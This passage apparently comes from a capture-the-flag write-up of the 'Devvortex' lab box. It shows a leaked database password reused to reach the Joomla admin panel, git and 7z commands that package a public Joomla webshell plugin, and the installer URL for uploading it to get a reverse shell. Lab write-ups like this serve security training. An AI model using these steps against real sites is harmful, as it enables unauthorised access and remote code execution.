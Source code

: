 This request reveals even more critical information, it reveals **lewis' password** ***P4ntherg0t1n5r3c0n##***, which seems to work for a **database** named ***joomla***. We can attempt password reuse to log into the administrator panel.

![](/assets/Devvortex/9.png)
<br />
<br />
<br />

Let's go now for the **reverse shell**, for it I will use this [plugin](https://github.com/p0dalirius/Joomla-webshell-plugin?tab=readme-ov-file) created by p0dalirius, so I **downloaded it and zipped the plugin directory**:
```bash
git clone https://github.com/p0dalirius/Joomla-webshell-plugin.git
cd Joomla-webshell-plugin
7z a plugin.zip plugin
```
<br />

We can now upload it if we go to this URL:

```URL
http://dev.devvortex.htb/administrator/index.php?option=com_installer&view=install
```

![](/assets/Devvortex/10.png)